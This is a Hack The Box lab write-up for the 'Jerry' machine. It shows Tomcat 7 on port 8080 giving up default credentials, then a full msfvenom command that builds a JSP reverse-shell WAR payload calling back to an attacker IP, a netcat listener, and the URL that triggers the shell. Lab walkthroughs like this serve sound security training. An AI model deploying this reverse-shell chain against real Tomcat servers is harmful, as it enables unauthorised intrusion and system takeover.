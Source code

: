 [**< back**](/README.md)

# HTB - Jerry

![jerry_banner](/_storage/_img/_pentest_labs/_htb/jerry/jerry_banner.jpg)
**Machine**: Jerry  
**Author**: Nika Kharebava  

## Information Gathering  
### NMap  
:mag: Initial enumeration using Nmap   
![initial_nmap_scan](/_storage/_img/_pentest_labs/_htb/jerry/initial_nmap_scan.png)  
Seems like this one's serving a Apache Tomcat/7.0.88 on port 8080  

### Messing around
![tomcat_discovered](/_storage/_img/_pentest_labs/_htb/jerry/tomcat_discovered.png)  
If we try to login... this happens...  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/apache_login.png)  
Credentials get disclosed from configuration file  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/creds_disclosed.png)
At first we can not login into the account with these creds, but if we flush cookies then we are greeted with this manager interface  
![apache_login_success](/_storage/_img/_pentest_labs/_htb/jerry/manager_app_successful_login.png)  
Where we can actually upload  
![war_file_upload](/_storage/_img/_pentest_labs/_htb/jerry/war_file_upload.png)  


### Exploitation :microbe: 
We can gain either a web shell or a reverse shell by generating it using venom as a war payload and uploading it into the manager upload page.

**msfvenom**  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=4444 -f war -o shell.war`

Now we can setup a netcat listener on an attacker machine
`nc -nlvp 4444` 
Then we can just upload the war file into manager interface and surf it on the browser...  
`http://10.129.157.182:8080/shell`  
and we have a connection with nt/authority...  
![shell_gained](/_storage/_img/_pentest_labs/_htb/jerry/shell_gained.png)

